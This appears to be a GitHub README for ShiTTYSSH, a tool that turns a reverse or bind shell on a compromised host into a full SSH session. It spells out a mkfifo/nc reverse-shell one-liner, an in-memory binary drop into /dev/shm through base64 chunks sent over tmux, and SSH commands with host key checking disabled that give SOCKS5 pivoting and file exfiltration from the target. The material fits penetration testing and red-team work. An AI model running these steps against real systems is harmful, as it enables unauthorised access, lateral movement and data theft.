 # ShiTTYSSH

A limited user SSH daemon that faciliates in band shell to SSH upgrades by talking over stdin/stdout. Expose the ShiTTYSSH terminal to SSH(1) via 'ProxyCommand'.
SFTP, SCP, RPORT, LPORT, and DYNAMIC PORT (SOCKS5), all work as expected. Remember to use a ControlMaster for the first connection.
Upgrading can happen in-band, no new ports or sockets required.

## Compiling

```
go build -ldflags='-w -s'
upx --best shittySSH -o shittyUPX
```

## Credit

Code sloppily 'adapted' from Fahrj's [reverse-ssh](https://github.com/Fahrj/reverse-ssh).

## Issues

Probably. I didn't call it SmarTTYSSH.

## Example

In this example we turn a weak (rev/bind) shell into a capable SSH session.

On our listening post, use [ShiTTYSSHClient](https://github.com/tbiehn/ShiTTYSSHClient) to wrap a listener. `ShiTTYSSHClient` will provide access to the underlying STDIN/STDOUT via a listening TCP socket, this means we can attach and detach without destroying the session - and facilitates the handoff to SSH(1) via `ProxyCommand`.

`./shittySSHClient -cmd 'nc -vvl -p 8080' -listen 127.0.0.1:2222`

This example uses nc to listen for inbound connections to port 8080, via shittySSHClient's `-cmd` argument. You can use whatever you want here. `socat`... tinyshell... whatever. 
This command's stdin/stdout will be served up to clients connecting to localhost on port 2222 as specified by `-listen`. 

Send a simple reverse shell from a target machine using, for example;

`rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 8080 >/tmp/f`

Start a `tmux` session that connects to `shittySSHClient` on port 2222;

`tmux new-session -d -s ShiTTY 'nc 127.0.0.1 2222'`

`-d` here means start detached.

`-s` here tells tmux to name the new session `ShiTTY`

`'nc 127.0.0.1 2222'` is the command to run.

You can attach to it from another terminal to watch - `tmux attach-session -t ShiTTY` - you should see a prompt, go ahead and issue an `id` to check it out. Simple shell.

Now we need to put ShiTTYSSH on the target to run it - let's use a `heredoc` and keep it in memory using `/dev/shm/`.

`tmux send -t ShiTTY -l "cat <<'EOF'|base64 -d>/dev/shm/shitty" && tmux send -t ShiTTY ENTER`

This command uses `tmux send` to get a heredoc going through base64 decoding via `base64 -d` into `/dev/shm`. Maybe use a `memfd`. Maybe use a regular file.

If you're watching the session, it might look like this;

```
$ cat <<'EOF'|base64 -d>/dev/shm/shitty
>
```

Next let's send the actual file over the pipe.

`cat ./shittyUPX | base64 -w0 | split -b 500 --filter "xargs -I{} tmux send -t ShiTTY -l {}; tmux send -t ShiTTY ENTER" && tmux send -t ShiTTY -l EOF && tmux send -t ShiTTY ENTER`

First this base64 encodes `shittyUPX` and provides 500 byte chunks to `xargs` via a `split` `--filter` directive. `xargs` will use `tmux send` commands to dump the file into the waiting heredoc. `tmux send -t ShiTTY -l EOF && tmux send -t ShiTTY ENTER` closes the heredoc.

If you want to watch the progress, try launching coreutils `progress -m` in another terminal window. It also doesnt hurt to watch the tmux session fill up with our base64 chunks.

Once that finishes, your session should look something like;

```
> Loads of base64 encoded stuff.
> ...... AA=
> EOF
$
```

That means we're ready to actually launch shittySSH - lets just double check everything went OK;

```
$ md5sum /dev/shm/shitty
02eb5b95261c5042ed6c324085e70c67 /dev/shm/shitty
$
```

And that matches locally with;

```
> md5sum shittyUPX
02eb5b95261c5042ed6c324085e70c67  shittyUPX
```

Now, from tmux, execute shitty; `chmod +x /dev/shm/shitty; /dev/shm/shitty`

This command has no output, so now hand off this socket to ssh by destroying our tmux session and running SSH.

From another terminal, `tmux kill-session -t ShiTTY`, then run SSH with a ControlMaster directive and ProxyCommand, for example;

`ssh -o "PubkeyAuthentication no" -o UserKnownHostsFile=/dev/null -o "StrictHostKeyChecking=no" -o "controlpath /tmp/ssh-shitty" -o ProxyCommand="bash -c '(echo -n G ; cat -) | nc 127.0.0.1 2222'" -C -T -M -N -vvv shitty@x`

Here the command is a bit more complex - this implementation waits for a 'G' on stdin in order to simulate an accepted TCP connection. Our proxycommand echoes the magic character and then runs cat to pipe the rest to nc.

`-C` enables compression,

`-T` doesnt allocate a PTY,

`-M` starts a ControlMaster,

`-N` doesn't request a command.

Work with `ssh` as you usually would.

Get a Socks5 proxy to the remote end.

`ssh -S /tmp/ssh-shitty x -N -D 127.0.0.1:3434`

Grab a file

`sftp -o ControlPath=/tmp/ssh-shitty x@y:/home/user/big.file ~/big.file`

`scp -o ControlPath=/tmp/ssh-shitty x@y:/home/user/big.file ~/big.file`

Get a term.

`ssh -S /tmp/ssh-shitty 'bash -i'`

## License

GPLv3